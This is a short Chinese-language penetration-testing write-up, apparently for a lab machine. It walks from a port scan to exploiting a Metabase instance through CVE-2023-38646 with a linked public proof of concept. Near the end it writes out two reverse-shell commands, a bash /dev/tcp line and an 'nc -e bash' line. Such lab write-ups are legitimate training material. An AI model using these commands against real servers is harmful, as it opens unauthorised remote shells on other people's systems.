







## 知识点

(PS:这台机器似乎有bug，经常连不上)


## 正文


首先扫描端口，22和80开放。



查看web界面


这里有一些输入框，但是没有后台交互。



只有login这里有登录界面



将这个url加入hosts，然后访问后台。




> <div class="image-with-text" style="display: flex;">      <span class="text" >metabase是什么</span> </div>
>
> >Metabase 是一个开源的数据分析和数据探索工具，它允许用户通过直观的界面轻松地查询、可视化和共享数据。它的目标是使数据分析变得更加简单、快速和直观。
> >

存在漏洞：[CVE-2023-38646](https://nvd.nist.gov/vuln/detail/CVE-2023-38646)

影响版本：Metabase open source before 0.46.6.1 and Metabase Enterprise before 1.46.6.1 allow attackers to execute arbitrary commands on the server

查看版本在影响范围内。



寻找poc，[CVE-2023-38646](https://github.com/robotmikhro/CVE-2023-38646)

存在漏洞。



尝试反弹shell。

但是使用bash进行反弹的时候一直连不上

`bash -i >& /dev/tcp/host/port 0>&1`

换成nc后就能连上

```
nc host port -e bash
```



